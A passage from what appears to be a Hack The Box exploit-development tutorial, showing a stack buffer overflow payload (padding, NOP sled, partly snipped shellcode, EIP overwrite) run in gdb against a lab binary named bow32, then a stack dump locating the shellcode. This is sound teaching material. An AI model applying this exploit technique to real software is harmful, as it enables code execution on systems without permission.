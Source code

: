 ```shell-session
gdxqpardo@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

#### Notes

  Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode

  Exploit with Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```
